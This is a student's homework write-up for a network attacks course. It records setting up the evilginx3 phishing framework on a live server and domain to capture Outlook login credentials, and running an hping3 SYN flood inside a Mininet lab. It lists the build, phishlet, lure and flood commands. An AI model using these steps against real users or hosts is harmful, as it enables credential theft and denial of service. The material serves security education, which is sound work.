


# 💥 H5 – Evilginx2 & SYN Flood

This is Homework 5 from the course *Network Attacks and Reconnaissance*  
🔗 https://terokarvinen.com/verkkoon-tunkeutuminen-ja-tiedustelu/

In this assignment, you will explore a powerful phishing toolkit (evilginx2) and simulate a TCP SYN flood attack using a virtual Mininet environment.

---

## 📑 Contents
- [🦹 A) Explore Evilginx2](#a)
- [🌐 B) Build Mininet and launch TCP SYN Flood](#b)
- [🛠️ Tools and Hardware Used](#tools)
- [📚 Resources](#resources)

---

<a name="a"></a>
## 🦹 A) Explore Evilginx2

> Visit: https://github.com/kgretzky/evilginx2  
> Answer the following:
>
> - Did you install the tool? If yes, describe how you installed it.  
> - What did you do with the tool?  
> - Were you able to intercept or manipulate traffic?

First time hearing about the tool. According to the github its a mitm phishing attack framework and has both windows and linux releases. Latest version seems to be 3.3.

I decide I want to do a practical test on a live server and domain.

Briefly looked at the blog posts about the evilnginx3 and it mentioned the documentation and installation guide here:
https://help.evilginx.com/category/installation

this seemed to refer to pro version?

instead i asked chatgpt for install instructions


**Starting off with a fresh ubuntu vps**

### working video of the attack demo

<video srv="https://github.com/lansiri/Network-Attacks-and-Reconnaissance-Course/blob/ec7247a16ea076595b19afeb51920184cf0c525e/assets/mininetSynFloods.mp4">
</video>

### Dependencies

```
sudo apt-get update
sudo apt install git make golang certbot nginx -y
```




### Download and build

```
git clone https://github.com/kingsmandralph/evilginx3.git
cd evilginx3
make
go build -o evilginx
```

### Spotify phishlet


`phishlets spotify peikonlehti.fi`

used a domain i had that wasnt currently in any use (peikonlehti.fi used for a marketing course in the past)

and setup the records for the spotify phishlet


it works but does not load the phishlets, starting again wiht the command:

`evilginx -p ~/evilginx3/phishlets`

downloaded some default phishlets from github (https://github.com/simplerhacking/Evilginx3-Phishlets)


had to disable blacklist since the lure url did not work, everything redirected to the default rickroll redirect 

`blacklist off`

got it eventually running, but the login system phishing passwords part didnt work


### Twitter phishlet working demo


`phishlets hostname twitter peikonlehti.fi`

Trying the Twitter phishlet


setup the records for the twitter phishlet


Twitter loads fine  with the  lure url, but sessions cant capture  the password, the login form is redirected to the actual x.com login form.

it notices me but cant complete the login


no sessions captured login details


Successfully captured some traffic but no passwords.

Will return to this task with some more tests if i have the time.

---

Returned to do some more tests, trying outlook. it was successful, video and notes below.

#### working demo video, setup details below

https://github.com/user-attachments/assets/5f8f08cf-8a6a-4cab-87c9-ac52bf8ec428

Decided to try the outlook  yaml

`phishlets hostname outlook peikonlehti.fi`

`phishlets enable outlook`

to temporarily disable the blacklisting, i used

`blacklist off`

and after tests i enabled it / closed the application

`blacklist unauth` 


```
lures create outlook

lures get-url 5
``` 


`lures create` command creates a phishing URL, and we can check the url with the command ```lures get-url <id>```


id was 5 since i already did this before. we got the url:

https://outlook.peikonlehti.fi/vrJIwVHF

opening the url opens up the phishing site that looks like microsoft login, it does not accept non valid accounts.


phishing attack successful, username and password grabbed.


Successfully captured email & pw


---

<a name="b"></a>
## 🌐 B) Build Mininet and launch TCP SYN Flood

> You have access to a Mininet environment.  
> Create a network setup where you can carry out a TCP SYN flood attack.
>
> - Describe how you created the Mininet environment.  
> - Explain how you launched and carried out the attack.

This task tests your ability to configure virtual network topologies and simulate denial-of-service style attacks within a safe lab setting.

Started off by downloading the mininet files from moodle, had this done previously on my laptop but now im at home on my pc. Using Kali on virtualbox.

Next i googled "mininet" "syn flood"

Browsed through a couple articles

- https://www.researchgate.net/figure/Mininet-TCP-SYN-attack-scenario_fig8_356680656
- https://www.firewall.cx/tools-tips-reviews/network-protocol-analyzers/performing-tcp-syn-flood-attack-and-detecting-it-with-wireshark.html
- https://clouddocs.f5.com/training/community/firewall/html/archive/archive1/lab3/3a-03.html

downloading mininet labs from moodle, but downloading the mininet does not work for some reason.

Moving to my laptop to do the task

#### launching mininet

ssh to mininet with -X -Y params


Creating the test topology, and launching it with "sudo -E"
Then testing xterm is working

<details close>
<summary> Derailed path: Some misconfigured / failed tests</summary>


```
sudo -E mn --topo single,3 --mac --switch ovsk --controller remote
```

`xterm h1`


Setting up http server on the victim h1

`h1 python3 -m http.server 80 &`

using example syn flood command from:
https://clouddocs.f5.com/training/community/firewall/html/archive/archive1/lab3/3a-03.html

using the command from h2 (attacker)

`hping3 10.0.0.1 --flood --rand-source --destport 80 --syn -d 120 -w 64`

-d data size

-w tcp window size


Also tried without the data size and window size, and lowering the syn backlog of the victim, but python webserver still listening


testing another  example from:

https://www.firewall.cx/tools-tips-reviews/network-protocol-analyzers/performing-tcp-syn-flood-attack-and-detecting-it-with-wireshark.html

` # hping3 -c 15000 -d 120 -S -w 64 -p 80 --flood --rand-source 10.0.0.1` 

similiar results, lets see how  it looks in wireshark

on attacker
`h2 wireshark`




the list is getting filled with arp requests

Victims wireshark  shows no traffic, this explains why the flood didnt work, maybe network is setup wrong?


starting over without the remote controller command

</details>

#### setting up mininet

```
sudo -E mn --topo single,3 --mac --switch ovsk
```

testing ping and tcpdump that the network is working


testing that ping works and  we can see it in  tcpump

redoing the commands, setting up python webserver on h2

`python3 -m http.server 80 &`

#### attacking from h1 to h2  

using example syn flood command from:
https://clouddocs.f5.com/training/community/firewall/html/archive/archive1/lab3/3a-03.html

`hping3 10.0.0.2 --flood --rand-source --destport 80 --syn`

`h2 wireshark` 

observing traffic on the victim(h2)  with wireshark


the traffic is nonstop filled  with  syn packets with random ip:s for awhile until it stops filling, got full?

**intresting observation:**
after stopping the hping command the wireshark suddenly gets more traffic

the wireshark got overwhelmed by the traffic, or the buffers were full on the victim


---

<a name="tools"></a>
## 🛠️ Tools and Hardware Used

- **Phishing Toolkit:** evilginx3  
- **Virtual Network Simulator:** Mininet  
- **Operating Systems:** Kali Linux / Debian  
- **Attack Tools (if used):** hping3

---

<a name="resources"></a>
## 📚 Resources

- https://terokarvinen.com/verkkoon-tunkeutuminen-ja-tiedustelu/ *(Karvinen 2025)*  
- https://github.com/kgretzky/evilginx2  
- https://mininet.org/  
- https://mininet.org/walkthrough/
- https://www.researchgate.net/figure/Mininet-TCP-SYN-attack-scenario_fig8_356680656
- https://www.firewall.cx/tools-tips-reviews/network-protocol-analyzers/performing-tcp-syn-flood-attack-and-detecting-it-with-wireshark.html
- https://clouddocs.f5.com/training/community/firewall/html/archive/archive1/lab3/3a-03.html

---
